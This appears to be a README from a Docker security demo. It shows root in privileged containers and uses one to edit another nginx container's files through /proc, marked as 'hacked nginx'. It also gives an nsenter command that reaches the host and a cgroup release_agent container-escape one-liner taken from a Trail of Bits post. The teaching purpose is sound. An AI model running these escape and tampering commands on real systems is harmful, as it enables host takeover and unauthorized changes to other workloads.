 # Example 5 - Root user 
Demonstrate root user inside the container. 

## Script to follow
Demonstrate root user

Build the image
```sh
docker build --no-cache -t scratchtest .
```

Run as non-privileged 
```sh
docker run -it --rm --entrypoint "/bin/bash" scratchtest
whoami
exit
```

Run as privileged
```sh
docker run -it --rm --privileged --entrypoint "/bin/bash" scratchtest
whoami
exit
```

Start an nginx container
```sh
docker run --rm --name mynginx -p 8080:80 -d nginx 
open http://localhost:8080/
docker run -it --rm --privileged --pid=container:$(docker ps --filter name=mynginx -q) --entrypoint "/bin/bash" scratchtest

# Change the nginx static file
cat /proc/1/root/etc/nginx/nginx.conf
cat /proc/1/root/etc/nginx/conf.d/default.conf
apt update
apt install nano
# edit the <h1>Welcome to hacked nginx!</h1>
nano /proc/1/root/usr/share/nginx/html/index.html
cat /proc/1/root/usr/share/nginx/html/index.html

open http://localhost:8080/
```

Changing and reloading config
```sh
# We should also be able to change config and reload 
docker exec -it $(docker ps --filter name=mynginx -q) nginx -s reload  
docker stop mynginx 
```

## Get onto the docker desktop host
```sh
docker run -it --privileged --pid=host debian nsenter -t 1 -m -u -n -i sh
```

## Escape the container
This will only work on Linux.  It doesn't work on Docker for Desktop.

**TODO** Can I use this to get access to another container filesystem without being in same namespace?  
[understanding-docker-container-escapes](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/)  
```
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
mkdir -p $d/w;echo 1 >$d/w/notify_on_release
t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
touch /o; echo $t/c >$d/release_agent;printf '#!/bin/sh\nps -aux >'"$t/o" >/c;
chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";sleep 1;cat /o
```